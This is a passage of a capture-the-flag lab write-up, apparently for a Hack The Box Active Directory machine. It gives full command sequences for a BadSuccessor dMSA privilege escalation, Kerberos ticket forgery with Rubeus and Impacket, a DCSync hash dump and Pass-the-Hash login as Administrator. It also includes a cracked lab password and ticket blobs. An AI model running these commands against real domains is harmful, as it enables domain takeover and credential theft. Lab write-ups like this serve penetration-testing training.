### 6.7.3 Final Compromise: Pass-the-Hash

With the **Administrator** NT hash successfully extracted from the *NTDS* via *DCSync*, we no longer need to rely on Kerberos tickets or the *dMSA*. We can use the hash to establish a persistent, high-privileged session via **Pass-the-Hash** using `evil-winrm`.

```Bash
# Authenticating as Administrator using the NT hash
➜ evil-winrm-py -i dc01.eighteen.htb -u administrator -H 0b133be956bfaddf9cea56701affddec
...[snip]..
PS C:\Users\Administrator\Documents> whoami; hostname
eighteen\administrator
DC01

# Capture the root flag:
PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
99****************************2c
```

<br>

---

### Attack Path

#### 1. Foothold & Lateral Movement
* **MSSQL Entry:** Exploited `impersonate` rights to dump the `financial_planner` DB.
* **Hash Cracking:** Cracked the PBKDF2 hash to recover the password `iloveyou1`.
* **Credential Spray:** Used the recovered password to gain a WinRM shell as `adam.scott`.

#### 2. Pivoting
* **Ligolo-ng:** Established a TUN interface to facilitate remote tool execution from the attack machine, resolving "Double-Hop" and WinRM session issues.

#### 3. Privilege Escalation (BadSuccessor)
* **OU Enumeration:** Identified that the **IT group** (of which `adam.scott` is a member) has `CreateChild` permissions over the **Staff OU**.
* **dMSA Manipulation:** Created the `jvar` dMSA and linked it to the `Administrator` successor.
* **Ticket Forgery:** Requested a Service Ticket via `getST.py` with the impersonated Administrator context.
* **DCSync:** Dumped the NTDS secrets to retrieve the Administrator's NT hash.


---

# Alternative BadSuccessor Exploitation Paths

## Appendix A: The C# Path: SharpSuccessor

**SharpSuccessor** is the preferred method when operating within a C2 framework (like Cobalt Strike, Sliver, or Havoc) that supports `execute-assembly`.

**A.1 Victim-Side Execution (Windows)**

```zsh
# Creating and weaponizing the dMSA object
PS C:\temp> .\SharpSuccessor.exe add /impersonate:Administrator /path:'OU=Staff,DC=eighteen,DC=htb' /account:adam.scott /name:jvar

...[snip]...
[+] Created dMSA object 'CN=jvar' in 'OU=Staff,DC=eighteen,DC=htb'
[+] Successfully weaponized dMSA object
```

**A.2 Attacker-Side Processing (Linux)**

```zsh
# Generate TGT | Adam.Scott
➜ fake_time 240.0.0.1 \
getTGT.py eighteen.htb/'adam.scott:iloveyou1' -dc-ip $rhost

# Impersonate | Silver Ticket
➜ fake_time $rhost \
env KRB5CCNAME=adam.scott.ccache \
getST.py eighteen.htb/adam.scott \
        -impersonate 'deus$' \
        -self \
        -dmsa \
        -k -no-pass \
        -dc-ip 240.0.0.1

# Dump Hashes
➜ fake_time 240.0.0.1 \
env KRB5CCNAME="deus\$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache" \
secretsdump.py EIGHTEEN.HTB/jvar\$@dc01.eighteen.htb \
      -k -no-pass \
      -dc-ip 240.0.0.1 \
      -target-ip 240.0.0.1 \
      -just-dc-user Administrator
```

<br>

## Appendix B: The Kerberos Path: Rubeus

In scenarios where the attack must be performed entirely from a Windows workstation, **Rubeus** can handle the Kerberos ticket lifecycle for the `dMSA`. This method is essential if pivoting is restricted and local execution is the only viable path.

### B.1 Victim-Side Execution (Windows)

**Create and Weaponize the dMSA**

```powershell
PS C:\temp> .\BadSuccessor.exe escalate `
-targetOU "OU=Staff,DC=eighteen,DC=htb" `
-dmsa jvar `
-targetUser "CN=Administrator,CN=Users,DC=eighteen,DC=htb" `
-dnshostname jvar `
-user adam.scott `
-dc-ip 127.0.0.1

...[snip]..

[+] Created dMSA 'jvar' in 'OU=Staff,DC=eighteen,DC=htb', linked to 'CN=Administrator,CN=Users,DC=eighteen,DC=htb' (DC: 127.0.0.1)

[*] Phase 4: Use Rubeus or Kerbeus BOF to retrieve TGS and Password Hash
    -> Step 1: Find luid of krbtgt ticket
     Rubeus:      .\Rubeus.exe triage
     Kerbeus BOF: krb_triage BOF

    -> Step 2: Get TGT of Windows 2025/24H2 system with a delegated MSA setup and migration finished.
     Rubeus:      .\Rubeus.exe dump /luid:<luid> /service:krbtgt /nowrap
     Kerbeus BOF: krb_dump /luid:<luid>

    -> Step 3: Use ticket to get a TGS ( Requires Rubeus PR: https://github.com/GhostPack/Rubeus/pull/194 )
    Rubeus:      .\Rubeus.exe asktgs /ticket:TICKET_FROM_ABOVE /targetuser:jvar$ /service:krbtgt/domain.local /dmsa /dc:<DC hostname> /opsec /nowrap
```

**Establish a Kerberos Session (AS-REQ)**

```powershell
PS C:\temp> .\Rubeus.exe asktgt `
/user:adam.scott `
/password:iloveyou1 `
/enctype:aes256 `
/opsec `
/nowrap

...[snip]..
[*] Building AS-REQ (w/ preauth) for: 'eighteen.htb\adam.scott'
[*] Using domain controller: fe80::dcc3:4077:4426:8824%3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFpjCCBaKgAwIBBaEDAgEWooIEqTCCBKVhggShMIIEnaADAgEFoQ4bDEVJR0hURUVOLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMRUlHSFRFRU4uSFRCo4IEYTCCBF2gAwIBEqEDAgECooIETwSCBEuPQJ9wfSlYDZBQpUvULuQAoMiUJXHYcBbGEuvoIJ1l4CdGVPnTZsR8m3xav1qUOV0tSbtwi70s+srIU6cSwaqWMGUfkjC6Em1AYeZw1hptRB3t
...[snip]..
      zApoAMCARKhIgQgzLdOuYFnp5f1mL6udcA0vsr99uggw+moU3yZlmL2ykuhDhsMRUlHSFRFRU4uSFRCohcwFaADAgEBoQ4wDBsKYWRhbS5zY290dKMHAwUAQOEAAKURGA8yMDI2MDQxNDAxNTcxNFqmERgPMjAyNjA0MTQxMTU3MTRapxEYDzIwMjYwNDIxMDE1NzE0WqgOGwxFSUdIVEVFTi5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDEVJR0hURUVOLkhUQg==
```

**Request the dMSA Service Ticket (TGS-REQ)**

```powershell

PS C:\temp> .\Rubeus.exe asktgs `
/targetuser:jvar$ `
/service:krbtgt/eighteen.htb `
/dmsa `
/opsec `
/nowrap `
/ptt `
/ticket:oMiUJXHYcBbGEuvoIJ1l4CdGVPnTZsR8m3xav1qUOV0tSbtwi70s+srIU6cSwaqWMGUfkjC6Em1AYeZw1hptRB3t
...[snip]..
      zApoAMCARKhIgQgzLdOuYFnp5f1mL6udcA0vsr99uggw+moU3yZlmL2ykuhDhsMRUlHSFRFRU4uSFRCohcwFaADAgEBoQ4wDBsKYWRhbS5zY290dKMHAwUAQOEAAKURGA8yMDI2MDQxNDAxNTcxNFqmERgPMjAyNjA0MTQxMTU3MTRapxEYDzIwMjYwNDIxMDE1NzE0WqgOGwxFSUdIVEVFTi5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDEVJR0hURUVOLkhUQg==

...[snip]..

[*] Building DMSA TGS-REQ request for 'jvar$' from 'adam.scott'
[+] Sequence number is: 1264534127
[*] Using domain controller: DC01.eighteen.htb (fe80::dcc3:4077:4426:8824%3)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFpDCCBaCgAwIBBaEDAgEWooIErDCCBKhhggSkMIIEoKADAgEFoQ4bDEVJR0hURUVOLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMRUlHSFRFRU4uSFRCo4IEZDCCBGCgAwIBEqEDAgECooIEUgSCBE4Z7IcCuiUzn8t7bX...[snip]..
      lERgPMjAyNjA0MTQwMTU5MTlaphEYDzIwMjYwNDE0MDIxNDE5WqcRGA8yMDI2MDQyMTAxNTcxNFqoDhsMRUlHSFRFRU4uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxFSUdIVEVFTi5IVEI=
```

### B.2 Attacker-Side Processing (Linux)

```zsh
# Decode and Convert
➜ echo -n 'doIFpDCCBaCgAwIBBaEDAgEWooI...[snip]...0MTQwMTU5MTlaphEYDzIwMjYwNDE0MDIxNDE5WqcRGA8yMDI2MDQyMTAxNTcxNFqoDhsMRUlHSFRFRU4uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxFSUdIVEVFTi5IVEI=' | base64 -d > jvar.kirbi

➜ ticketConverter.py jvar.kirbi jvar.ccache

# Export and Verify
➜ export KRB5CCNAME=jvar.ccache

➜ klist jvar.ccache
Ticket cache: FILE:jvar.ccache
Default principal: jvar$@eighteen.htb

Valid starting       Expires              Service principal
04/14/2026 07:29:19  04/14/2026 07:44:19  krbtgt/EIGHTEEN.HTB@EIGHTEEN.HTB
        renew until 04/21/2026 07:27:14

## Dump Hashes..
```

<br>

## Appendix C: Native Binary & Remote Kerberos Orchestration

### C.1 Victim-Side Execution (Windows)

```Bash
# Weaponization: Create Malicious dMSA
PS C:\temp> .\BadSuccessor.exe escalate `
-targetOU "OU=STAFF,DC=eighteen,DC=htb" `
-dmsa jvar `
-targetUser "CN=Administrator,CN=Users,DC=eighteen,DC=htb" `
-dnshostname oracle `
-user adam.scott `
-dc-ip 127.0.0.1

...[snip]...
[+] Created dMSA 'jvar' in 'OU=STAFF,DC=eighteen,DC=htb', linked to 'CN=Administrator,CN=Users,DC=eighteen,DC=htb' (DC: 127.0.0.1)
```

### C.2 Attacker-Side Processing (Linux)

```zsh
# Generate TGT | Adam.Scott
➜ fake_time $rhost \
getTGT.py eighteen.htb/'adam.scott:iloveyou1' -dc-ip $rhost

# Impersonation: Remote Service Ticket Request
➜ fake_time $rhost \
env KRB5CCNAME=adam.scott.ccache \
getST.py eighteen.htb/adam.scott \
        -impersonate 'jvar$' \
        -self \
        -dmsa \
        -k -no-pass \
        -dc-ip $rhost

# Extraction: Domain Secret Dump (DCSync)
➜ fake_time $rhost \
env KRB5CCNAME="jvar\$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache" \
secretsdump.py EIGHTEEN.HTB/jvar\$@dc01.eighteen.htb \
      -k -no-pass \
      -dc-ip $rhost \
      -target-ip $rhost \
      -just-dc-user Administrator
```

<br>

## Appendix D: BloodyAD (Remote Python Implementation)

**BloodyAD** allows for a completely remote "BadSuccessor" exploit over a SOCKS proxy or TUN interface. This method is highly effective for agentless exploitation.

> **Note:** A minor patch is required in the `typeconversion.py` file of the `badldap` library to support the multi-string nature of the `msDS-ManagedAccountPrecededByLink` attribute.
>
> In older versions of the `badldap` library, a manual patch was required in `typeconversion.py` to support the multi-string nature of the `msDS-ManagedAccountPrecededByLink` attribute. Verify if the current installation handles this attribute as a `multi_str` before proceeding.

```zsh
# Malicious dMSA
➜ bloodyAD --host $rhost -d 'eighteen.htb' \
      -u 'adam.scott' -p 'iloveyou1' \
      add badSuccessor dmsa
...[snip]...
AttributeError: 'list' object has no attribute 'encode'

# Patching the library (Oneliner)
➜ sed -i 's/"msDS-ManagedAccountPrecededByLink" : single_str,/"msDS-ManagedAccountPrecededByLink" : multi_str,/' /path/to/bloodyad/badldap/protocol/typeconversion.py

# Malicious dMSA | Remote
➜ bloodyAD --host $rhost -d 'eighteen.htb' \
      -u 'adam.scott' -p 'iloveyou1' \
      add badSuccessor dmsa
[+] Creating DMSA dmsa$ in OU=Staff,DC=eighteen,DC=htb
[+] Impersonating: CN=Administrator,CN=Users,DC=eighteen,DC=htb
Clock skew detected. Adjusting local time by 8:00:34.191579. Retrying operation.
...[snip]..
[+] dMSA TGT stored in ccache file dmsa_5f.ccache
```
